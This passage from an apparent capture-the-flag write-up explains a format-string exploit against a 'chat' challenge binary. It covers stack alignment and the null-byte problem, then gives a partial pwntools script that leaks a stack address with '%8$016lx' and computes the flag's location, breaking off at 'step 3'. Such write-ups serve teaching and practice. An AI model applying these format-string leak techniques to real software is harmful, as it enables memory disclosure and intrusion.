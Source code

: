 We already got the first 2. So the next question would be how to place the address onto the stack?

This actually turns out pretty easy as our inserted messages are placed on the stack:
```objdump
...
0040| 0x7fffffffdb28 --> 0x55555555a6d0 ("cmd is invalid: \\", 'A' <repeats 59 times>)
0048| 0x7fffffffdb30 ("\\", 'A' <repeats 59 times>)
0056| 0x7fffffffdb38 ('A' <repeats 52 times>)
```
The thing we have to care about is padding: We have to make sure the address is aligned correctly.

With the initial characters we cannot control (i.e. "*cmd is invalid: \\*") the initial padding has to be 7 bytes. After that every 8 bytes are useable. Naturally another problem arises: We cannot place null-bytes, as they are interpreted as string end characters. In order to overcome this problem we can either place our string formatter at the front and our address at the end or we can simply send two messages, first the address and after that our string formatter. As we will need this later, I chose the latter.

We can then align our `%s` formatter with the address on the stack using the direct parameter access like we did before.

Finally we can construct an exploit which may look like this:

```python
import sys
import struct
from pwn import *


def main():
    # con = remote('pwn.tyumenctf.ru', 2001)

    con = process(['./chat', 'A' * 24])
    log.info('PID %s' % util.proc.pidof(con)[0])

    con.recvuntil('token: ')
    con.sendline('ABCDEFGHI')  # send token
    # con.sendline('ucL9wGWpr')

    nick = 'XXXXX'

    con.recvuntil('nick: ')
    con.sendline(nick)  # send nickname

    con.recvuntil('>> ')
    con.sendline('1')

    # BEGIN EXPLOIT

    con.recvuntil(nick + ': ')
    con.sendline('JUNK')
    con.recvline()

    # step 1
    # guess current stack pointer
    con.recvuntil(nick + ': ')
    con.sendline('\\%8$016lx')
    stack_addr = con.recvline()[-17:-1].decode()
    stack_addr = int(stack_addr, 16)
    log.info('STACK ADDR %s' % hex(stack_addr))

    # step 2
    flag_addr = stack_addr - 264
    log.info('FLAG @ %s' % hex(flag_addr))

    # step 3
```